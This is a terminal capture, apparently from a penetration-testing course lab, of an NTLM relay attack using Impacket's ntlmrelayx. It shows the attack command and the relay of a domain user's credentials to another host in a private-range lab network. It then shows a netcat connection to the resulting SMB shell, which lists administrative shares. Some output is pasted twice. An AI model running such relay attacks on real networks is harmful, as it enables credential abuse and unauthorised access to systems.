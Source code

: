 ```
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Received connection from 192.168.95.133, attacking target smb://192.168.95.134
[*] Authenticating against smb://192.168.95.134 as MARVEL\fcastle SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-5: Received connection from 192.168.95.133, attacking target smb://192.168.95.133
[-] Authenticating against smb://192.168.95.133 as MARVEL\fcastle FAILED
whoami
^C%                                                                                                                                                         ┌─(~/Documents/PEH)─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/3)─┐
└─(13:50:14)──> ntlmrelayx.py -tf targets.txt -smb2support -i                                                                               ──(Wed,Jun26)─┘
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Received connection from 192.168.95.133, attacking target smb://192.168.95.134
[*] Authenticating against smb://192.168.95.134 as MARVEL\fcastle SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-5: Received connection from 192.168.95.133, attacking target smb://192.168.95.133
[-] Authenticating against smb://192.168.95.133 as MARVEL\fcastle FAILED
```

Shell opened @ 127.0.0.1:11000, connect:

```
┌─(~)───────────────────────────────────────────────────(kali@kali:pts/5)─┐
└─(13:50:13)──> nc 127.0.0.1 11000                          ──(Wed,Jun26)─┘
Type help for list of commands
# help
# pwd
\
# shares
ADMIN$
C$
IPC$
```
